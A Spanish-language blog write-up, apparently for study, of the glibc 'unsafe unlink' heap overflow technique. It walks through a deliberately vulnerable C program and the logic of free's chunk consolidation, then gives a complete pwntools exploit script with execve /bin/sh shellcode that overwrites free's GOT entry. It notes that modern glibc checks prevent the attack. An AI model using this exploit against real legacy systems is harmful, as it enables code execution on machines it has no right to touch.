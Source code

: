 ```yaml
---
layout: post
title: Unlink SploitFUN
comments: true
categories: [Pwn, Writeups, SploitFUN]
---
```


Estudiando sobre Heap Overflows, llegué a la página de [sploitfun](https://sploitfun.wordpress.com/2015/02/26/heap-overflow-using-unlink/), donde se explicaba sobre una técnica que abusa el algoritmo para consolidar trozos al ser liberados en un heap. Me pareció interesante, por lo que hice esta versión simplificada y en castellano del post.

# Overview

Vamos a explotar una técnica de *Heap Overflow* conocida como ***unlink*** ó ***unsafe unlink***.

# Reconocimiento

Se nos da el siguiente programa:

```c
/* 
 Heap overflow vulnerable program. 
*/

#include <stdlib.h>
#include <string.h>

int main( int argc, char * argv[] )
{
        char * first, * second;

first = malloc( 666 ); /*[1]*/
second = malloc( 12 ); /*[2]*/
if(argc!=1) 
	strcpy( first, argv[1] ); /*[3]*/

free( first ); /*[4]*/
free( second ); /*[5]*/

return( 0 ); /*[6]*/
}
```

Podemos ver que en la línea 3 se produce un [[Heap Overflow]] ya que se copia el input del usuario en `first` sin ninguna comprobación. El heap se vería así:

![Image]({{ site.baseurl }}/images/posts/2024-10-21-Unlink-SploitFUN-1.png)

## Técnica [[unlink]]

> [_Unlink_](https://github.com/sploitfun/lsploits/blob/master/hof/unlink/malloc_unlink_snip.c):  The main idea of this technique is to trick ‘glibc malloc’ to unlink the ‘second’ chunk. While unlinking GOT entry of free would get overwritten with shellcode address!! After successful overwrite, now when free is called by vulnerable program at line [5], shellcode would get executed. Not very clear? No problem, first lets see what ‘glibc malloc’ does when free gets executed.

Es decir, queremos hacer que el chunk `second` sea "unlinkeado", de forma que cuando se esté desenlazando, la entrada en la *GOT* de `free` se sobrescriba con un *shellcode* y al llamarse en la línea 5, se ejecute dicho shellcode.

### Explicación

Sin la influencia de un atacante, **free** hace lo siguiente (para chunks [*non mmaped*](https://github.com/sploitfun/lsploits/blob/master/hof/unlink/malloc_free_snip.c#L10), es decir fruto de una llamada a `mmap`):

- Consolidar hacia detrás (**consolidate backwards**):
	- Comprueba si *el chunk previo está libre* - Si el actual tiene el bit `PREV_INUSE (P)` en 0. En nuestro caso no está libre (`first` tiene el bit activo). Por defecto, el chunk previo al primer chunk del heap tiene este bit activo aunque no esté libre.
	- *Si está libre*, se desenlaza (**unlink**) el chunk previo de su *bin*, se suman los tamaños del actual y el anterior, y se mueve el chunk pointer al chunk previo. En nuestro caso, no está libre, por lo que no se realiza esta operatoria.
- Consolidar hacia delante (**consolidate forward**):
	- Comprueba si *el siguiente chunk está libre* - Comprueba si el siguiente al siguiente tiene el bit `PREV_INUSE (P)` en 0, para ello avanza al siguiente chunk sumando `size` al chunk pointer, y repite la operación para llegar al siguiente. En nuestro caso, comprobará el bit del `top`, que dirá que el anterior (`second`) no está libre.
	- *Si está libre*, se desenlaza (**unlink**) el chunk siguiente de su *bin*, se suman los tamaños del actual y el siguiente. En nuestro caso, no está libre, por lo que no se realiza esta operatoria.
- Finalmente, en caso de realizarse una consolidación, se añade el resultado a la bin correspondiente.

# Explotación

Pongamos ahora, que mediante el [[Heap Overflow]] de la línea 3, un atacante sobrescribe las cabeceras de `second` de forma que quedan:

```
prev_size = PREV_INUSE bit a 0 (numero par)
size = -4
fd = dirección de free – 12
bk = dirección de un shellcode
```

Como hemos logrado manipular las cabeceras, al invocarse **free**, el comportamiento será diferente:

1. Como *no es mmaped*, trata de consolidar:
2. Consolidar hacia atrás:
	- Comprueba si el chunk previo está libre, en este casó lo está, pero al ser `first` el chunk siguiente al primer chunk del heap, tiene por defecto el bit `PREV_INUSE (P)` activado por defecto. Por tanto, no podemos consolidar hacia atrás.
3. Consolidar hacia delante:
	- Normalmente, el siguiente chunk al siguiente sería `top`. Sin embargo, como hemos sobrescrito el tamaño de `second` con `-4`, el siguiente chunk empezaría a partir de un offset de 4 bytes del `second`, tratando el campo `PREV_INUSE (P)` de `second` como el del siguiente chunk, como hemos puesto un valor par, interpretará que es 0, es decir que está libre.
	- Como está "libre", consolida hacia delante:
		1. Copia `fd` y `bk` de `second` en las variables `FD` y `BK`, en nuestro caso:  `FD = dirección de free - 12` y `BK = direccion de un shellcode`.
		2. `BK` se copia 12 bytes después de `FD`, en nuestro caso, apunta a la dirección en la *GOT* de *free*, de forma que en caso de llamar a *free*, se ejecutará el shellcode.
4. Finalmente se añade el chunk consolidado a una bin.

El heap después de introducirse los datos se vería:

![Image]({{ site.baseurl }}/images/posts/2024-10-21-Unlink-SploitFUN-2.png)

Sabiendo todo esto, podemos crear un script en python utilizando *pwntools*:

```python
#!/bin/python3
from pwn import *

# Dirección de la función 'free' en la GOT (obtenida con objdump)
FUNCTION_POINTER = 0x0804978c 
# Dirección de la variable 'first' en el ejecutable vulnerable
CODE_ADDRESS = 0x0804a008 + 0x10 

# Nombre del binario vulnerable
VULNERABLE = './vuln'
DUMMY = 0xdefaced
PREV_INUSE = 0x1

# Shellcode
shellcode = (
    b"\xeb\x0a"          # Jump 10 bytes
    b"ssppppffff"        # Si no hacemos este salto, la llamada a unlink nos corrompe el shellcode
    b"\x31\xc0"          # xor eax, eax
    b"\x50"              # push eax
    b"\x68\x2f\x2f\x73\x68"  # push '//sh'
    b"\x68\x2f\x62\x69\x6e"  # push '/bin'
    b"\x89\xe3"          # mov ebx, esp
    b"\x50"              # push eax
    b"\x89\xe2"          # mov edx, esp
    b"\x53"              # push ebx
    b"\x89\xe1"          # mov ecx, esp
    b"\xb0\x0b"          # mov al, 11 (syscall execve)
    b"\xcd\x80"          # int 0x80 (syscall)
)

# Conexión al binario vulnerable
io = process(VULNERABLE)

# Generar payload
payload = b""
payload += p32(DUMMY)  # fd of first chunk
payload += p32(DUMMY)  # bk of first chunk
payload += p32(DUMMY)  # fd_nextsize of first chunk
payload += p32(DUMMY)  # bk_nextsize of first chunk
payload += shellcode   # Copiar shellcode

# Padding
padding_length = 680 - 4*4 - (4*4 + len(shellcode))
payload += b"B" * padding_length

# Campos del segundo chunk
payload += p32(DUMMY & ~PREV_INUSE)  # prev_size of second chunk
payload += p32(-4)  # size of second chunk
payload += p32(FUNCTION_POINTER - 12)  # fd del segundo chunk
payload += p32(CODE_ADDRESS)  # bk del segundo chunk (dirección del shellcode)

# Enviar el payload
io.sendline(payload)

# Interactuar con la shell
io.interactive()
```

Si ejecutamos, veremos que somos capaces de spawnear una shell.

Sin embargo, a día de hoy, existen diversas protecciones que prevendrán este ataque:

- **Double free check**
- **Invalid next size**
- **Corrupted double linked list**

Por lo que aunque en sistemas antiguos podamos realizarlo, para implementaciones más modernas debemos utilizar técnicas más sofisticadas que trataremos en próximos posts. Si te ha interesado y quieres profundizar en el tema, te recomiendo leer el paper [Vudo malloc tricks](http://phrack.org/issues/57/8.html).
